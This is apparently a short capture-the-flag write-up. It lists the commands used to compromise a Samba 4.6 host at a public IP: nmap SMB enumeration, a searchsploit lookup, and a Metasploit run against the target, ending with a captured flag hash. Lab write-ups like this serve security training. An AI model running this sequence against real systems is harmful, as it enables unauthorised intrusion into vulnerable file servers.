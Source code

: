 # onehop 

```ruby
nmap -p445 --script smb-enum-users,smb-enum-shares 18.144.54.197
```

<img width="830" height="540" alt="image" src="https://github.com/user-attachments/assets/bace52cc-7045-46bc-a589-c1d1c18c70cb" />


```ruby
searchsploit Samba 4.6
```

<img width="1130" height="210" alt="image" src="https://github.com/user-attachments/assets/f6bc8a18-a852-4435-ac76-8581f1ea18bb" />


```ruby
msfconsole
search Samba 4.6
use 0
set rhosts 18.144.54.197
run
```

<img width="1004" height="611" alt="image" src="https://github.com/user-attachments/assets/eaaaf636-a175-435b-b8a0-fb3cc03529d4" />



<img width="1129" height="276" alt="image" src="https://github.com/user-attachments/assets/e09d3a52-45c2-4703-a91c-2856ef8dca81" />

```
d4a522838bc6d6ebde153b7c71e37b06
```














